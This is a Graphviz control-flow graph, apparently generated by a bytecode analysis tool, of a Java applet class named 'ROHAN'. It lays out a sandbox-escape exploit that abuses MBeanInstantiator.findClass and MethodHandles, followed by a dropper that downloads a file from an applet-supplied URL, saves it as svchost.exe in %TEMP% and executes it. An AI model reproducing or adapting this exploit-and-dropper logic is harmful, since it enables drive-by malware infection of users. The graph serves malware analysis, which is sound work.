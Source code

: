 digraph "" {
    "r0 := @this: ROHAN"
    "new sodom"
    "r0 := @this: ROHAN"->"new sodom";
    "store.r r15"
    "new sodom"->"store.r r15";
    "load.r r15"
    "store.r r15"->"load.r r15";
    "specialinvoke <sodom: void <init>()>"
    "load.r r15"->"specialinvoke <sodom: void <init>()>";
    "specialinvoke <sodom: void <init>()>"->"load.r r15";
    "virtualinvoke <sodom: byte[] dar()>"
    "load.r r15"->"virtualinvoke <sodom: byte[] dar()>";
    "pop"
    "virtualinvoke <sodom: byte[] dar()>"->"pop";
    "pop"->"load.r r15";
    "fieldget <sodom: com.sun.jmx.mbeanserver.MBeanInstantiator cano>"
    "load.r r15"->"fieldget <sodom: com.sun.jmx.mbeanserver.MBeanInstantiator cano>";
    "fieldget <sodom: com.sun.jmx.mbeanserver.MBeanInstantiator cano>"->"load.r r15";
    "fieldget <sodom: java.lang.String x1>"
    "load.r r15"->"fieldget <sodom: java.lang.String x1>";
    "fieldget <sodom: java.lang.String x1>"->"load.r r15";
    "fieldget <sodom: java.lang.ClassLoader bno>"
    "load.r r15"->"fieldget <sodom: java.lang.ClassLoader bno>";
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>"
    "fieldget <sodom: java.lang.ClassLoader bno>"->"virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>";
    "store.r r1"
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>"->"store.r r1";
    "store.r r1"->"load.r r15";
    "load.r r15"->"fieldget <sodom: com.sun.jmx.mbeanserver.MBeanInstantiator cano>";
    "fieldget <sodom: com.sun.jmx.mbeanserver.MBeanInstantiator cano>"->"load.r r15";
    "fieldget <sodom: java.lang.String x2>"
    "load.r r15"->"fieldget <sodom: java.lang.String x2>";
    "fieldget <sodom: java.lang.String x2>"->"load.r r15";
    "load.r r15"->"fieldget <sodom: java.lang.ClassLoader bno>";
    "fieldget <sodom: java.lang.ClassLoader bno>"->"virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>";
    "store.r r2"
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>"->"store.r r2";
    "load.r r2"
    "store.r r2"->"load.r r2";
    "load.r r2"->"load.r r15";
    "fieldget <sodom: java.lang.invoke.MethodHandles$Lookup dado>"
    "load.r r15"->"fieldget <sodom: java.lang.invoke.MethodHandles$Lookup dado>";
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""
    "fieldget <sodom: java.lang.invoke.MethodHandles$Lookup dado>"->"push class \"Ljava/lang/invoke/MethodHandles$Lookup;\"";
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""->"load.r r15";
    "fieldget <sodom: java.lang.String x3>"
    "load.r r15"->"fieldget <sodom: java.lang.String x3>";
    "fieldget <sodom: java.lang.String x3>"->"load.r r15";
    "fieldget <sodom: java.lang.invoke.MethodType haco>"
    "load.r r15"->"fieldget <sodom: java.lang.invoke.MethodType haco>";
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"
    "fieldget <sodom: java.lang.invoke.MethodType haco>"->"virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>";
    "staticget <java.lang.Void: java.lang.Class TYPE>"
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"->"staticget <java.lang.Void: java.lang.Class TYPE>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"
    "staticget <java.lang.Void: java.lang.Class TYPE>"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>";
    "store.r r4"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"->"store.r r4";
    "push 3"
    "store.r r4"->"push 3";
    "newarray"
    "push 3"->"newarray";
    "store.r r6"
    "newarray"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "push 0"
    "load.r r6"->"push 0";
    "push 0"->"load.r r15";
    "load.r r15"->"fieldget <sodom: java.lang.invoke.MethodHandles$Lookup dado>";
    "arraywrite.r"
    "fieldget <sodom: java.lang.invoke.MethodHandles$Lookup dado>"->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "push 1"
    "load.r r6"->"push 1";
    "load.r r1"
    "push 1"->"load.r r1";
    "load.r r1"->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "push 2"
    "load.r r6"->"push 2";
    "load.r r4"
    "push 2"->"load.r r4";
    "load.r r4"->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"
    "load.r r6"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "checkcast"
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"newarray";
    "newarray"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r6";
    "store.r r6"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r4";
    "store.r r4"->"load.r r4";
    "load.r r4"->"push 0";
    "push class \"Ljava/lang/String;\""
    "push 0"->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"load.r r4";
    "load.r r4"->"push 1";
    "push class \"Ljava/lang/invoke/MethodType;\""
    "push 1"->"push class \"Ljava/lang/invoke/MethodType;\"";
    "push class \"Ljava/lang/invoke/MethodType;\""->"arraywrite.r";
    "push class \"Ljava/lang/invoke/MethodHandle;\""
    "arraywrite.r"->"push class \"Ljava/lang/invoke/MethodHandle;\"";
    "push class \"Ljava/lang/Class;\""
    "push class \"Ljava/lang/invoke/MethodHandle;\""->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"load.r r4";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"
    "load.r r4"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"store.r r4";
    "store.r r4"->"load.r r15";
    "load.r r15"->"fieldget <sodom: java.lang.invoke.MethodHandles$Lookup dado>";
    "fieldget <sodom: java.lang.invoke.MethodHandles$Lookup dado>"->"push class \"Ljava/lang/invoke/MethodHandles$Lookup;\"";
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""->"load.r r15";
    "fieldget <sodom: java.lang.String x4>"
    "load.r r15"->"fieldget <sodom: java.lang.String x4>";
    "fieldget <sodom: java.lang.String x4>"->"load.r r4";
    "load.r r4"->"virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>";
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"->"store.r r4";
    "push class \"Ljava/lang/ClassLoader;\""
    "store.r r4"->"push class \"Ljava/lang/ClassLoader;\"";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"
    "push class \"Ljava/lang/ClassLoader;\""->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>";
    "store.r r9"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"->"store.r r9";
    "push 4"
    "store.r r9"->"push 4";
    "push 4"->"newarray";
    "store.r $r37"
    "newarray"->"store.r $r37";
    "load.r $r37"
    "store.r $r37"->"load.r $r37";
    "load.r $r37"->"push 0";
    "push 0"->"load.r r15";
    "load.r r15"->"fieldget <sodom: java.lang.invoke.MethodHandles$Lookup dado>";
    "fieldget <sodom: java.lang.invoke.MethodHandles$Lookup dado>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r37";
    "load.r $r37"->"push 1";
    "push 1"->"load.r r1";
    "load.r r1"->"arraywrite.r";
    "arraywrite.r"->"load.r $r37";
    "load.r $r37"->"push 2";
    "push 2"->"load.r r15";
    "fieldget <sodom: java.lang.String x5>"
    "load.r r15"->"fieldget <sodom: java.lang.String x5>";
    "fieldget <sodom: java.lang.String x5>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r37";
    "load.r $r37"->"push 3";
    "load.r r9"
    "push 3"->"load.r r9";
    "load.r r9"->"arraywrite.r";
    "arraywrite.r"->"load.r r4";
    "load.r r4"->"load.r $r37";
    "load.r $r37"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r1";
    "store.r r1"->"load.r r1";
    "load.r r1"->"push 0";
    "push 0"->"load.r r6";
    "load.r r6"->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "load.r r1"->"push 1";
    "push null"
    "push 1"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r1";
    "store.r r1"->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"push 1";
    "push 1"->"newarray";
    "dup1.r"
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"[B\""
    "push 0"->"push class \"[B\"";
    "push class \"[B\""->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"store.r r6";
    "store.r r6"->"push 4";
    "push 4"->"newarray";
    "newarray"->"store.r r9";
    "store.r r9"->"load.r r9";
    "load.r r9"->"push 0";
    "push 0"->"load.r r15";
    "load.r r15"->"fieldget <sodom: java.lang.invoke.MethodHandles$Lookup dado>";
    "fieldget <sodom: java.lang.invoke.MethodHandles$Lookup dado>"->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"push 1";
    "push 1"->"load.r r2";
    "load.r r2"->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"push 2";
    "push 2"->"load.r r15";
    "fieldget <sodom: java.lang.String x6>"
    "load.r r15"->"fieldget <sodom: java.lang.String x6>";
    "fieldget <sodom: java.lang.String x6>"->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"push 3";
    "push 3"->"load.r r6";
    "load.r r6"->"arraywrite.r";
    "arraywrite.r"->"load.r r4";
    "load.r r4"->"load.r r9";
    "load.r r9"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 3";
    "push 3"->"newarray";
    "newarray"->"store.r r2";
    "store.r r2"->"load.r r2";
    "load.r r2"->"push 0";
    "push 0"->"load.r r1";
    "load.r r1"->"arraywrite.r";
    "arraywrite.r"->"load.r r2";
    "load.r r2"->"push 1";
    "push 1"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r r2";
    "load.r r2"->"push 2";
    "push 2"->"load.r r15";
    "fieldget <sodom: byte[] gomorath>"
    "load.r r15"->"fieldget <sodom: byte[] gomorath>";
    "fieldget <sodom: byte[] gomorath>"->"arraywrite.r";
    "arraywrite.r"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"
    "checkcast"->"virtualinvoke <java.lang.Class: java.lang.Object newInstance()>";
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"->"pop";
    "new java.lang.StringBuilder"
    "pop"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"TEMP\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"TEMP\"";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "push \"TEMP\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\\svchost.exe\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\svchost.exe\"";
    "push \"\\svchost.exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r15";
    "new java.io.BufferedInputStream"
    "store.r r15"->"new java.io.BufferedInputStream";
    "new java.io.BufferedInputStream"->"store.r r2";
    "store.r r2"->"load.r r2";
    "new java.net.URL"
    "load.r r2"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "load.r r0"
    "dup1.r"->"load.r r0";
    "push \"link\""
    "load.r r0"->"push \"link\"";
    "virtualinvoke <ROHAN: java.lang.String getParameter(java.lang.String)>"
    "push \"link\""->"virtualinvoke <ROHAN: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <ROHAN: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>"
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>";
    "new java.io.FileOutputStream"
    "specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>"->"new java.io.FileOutputStream";
    "new java.io.FileOutputStream"->"store.r r1";
    "store.r r1"->"load.r r1";
    "load.r r1"->"load.r r15";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "load.r r15"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "new java.io.BufferedOutputStream"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"new java.io.BufferedOutputStream";
    "store.r r0"
    "new java.io.BufferedOutputStream"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"load.r r1";
    "push 1024"
    "load.r r1"->"push 1024";
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>"
    "push 1024"->"specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>";
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>"->"push 1024";
    "push 1024"->"newarray";
    "newarray"->"store.r r1";
    "store.r r1"->"load.r r2";
    "load.r r2"->"load.r r1";
    "virtualinvoke <java.io.BufferedInputStream: int read(byte[])>"
    "load.r r1"->"virtualinvoke <java.io.BufferedInputStream: int read(byte[])>";
    "store.i r4"
    "virtualinvoke <java.io.BufferedInputStream: int read(byte[])>"->"store.i r4";
    "load.i r4"
    "store.i r4"->"load.i r4";
    "push -1"
    "load.i r4"->"push -1";
    "ifcmpeq.i load.r r0"
    "push -1"->"ifcmpeq.i load.r r0";
    "ifcmpeq.i load.r r0"->"load.r r0";
    "load.r r0"->"load.r r1";
    "load.r r1"->"push 0";
    "push 0"->"load.i r4";
    "virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>"
    "load.i r4"->"virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>";
    "virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>"->"load.i r4";
    "i2l"
    "load.i r4"->"i2l";
    "store.l $l2"
    "i2l"->"store.l $l2";
    "goto load.r r2"
    "store.l $l2"->"goto load.r r2";
    "goto load.r r2"->"store.r r0";
    "push class \"LROHAN;\""
    "store.r r0"->"push class \"LROHAN;\"";
    "virtualinvoke <java.lang.Class: java.lang.String getName()>"
    "push class \"LROHAN;\""->"virtualinvoke <java.lang.Class: java.lang.String getName()>";
    "staticinvoke <java.util.logging.Logger: java.util.logging.Logger getLogger(java.lang.String)>"
    "virtualinvoke <java.lang.Class: java.lang.String getName()>"->"staticinvoke <java.util.logging.Logger: java.util.logging.Logger getLogger(java.lang.String)>";
    "staticget <java.util.logging.Level: java.util.logging.Level SEVERE>"
    "staticinvoke <java.util.logging.Logger: java.util.logging.Logger getLogger(java.lang.String)>"->"staticget <java.util.logging.Level: java.util.logging.Level SEVERE>";
    "staticget <java.util.logging.Level: java.util.logging.Level SEVERE>"->"push null";
    "push null"->"load.r r0";
    "virtualinvoke <java.util.logging.Logger: void log(java.util.logging.Level,java.lang.String,java.lang.Throwable)>"
    "load.r r0"->"virtualinvoke <java.util.logging.Logger: void log(java.util.logging.Level,java.lang.String,java.lang.Throwable)>";
    "return"
    "virtualinvoke <java.util.logging.Logger: void log(java.util.logging.Level,java.lang.String,java.lang.Throwable)>"->"return";
    "ifcmpeq.i load.r r0"->"load.r r0";
    "virtualinvoke <java.io.BufferedOutputStream: void close()>"
    "load.r r0"->"virtualinvoke <java.io.BufferedOutputStream: void close()>";
    "virtualinvoke <java.io.BufferedOutputStream: void close()>"->"load.r r2";
    "virtualinvoke <java.io.BufferedInputStream: void close()>"
    "load.r r2"->"virtualinvoke <java.io.BufferedInputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.BufferedInputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r15";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r r15"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto return"
    "pop"->"goto return";
}
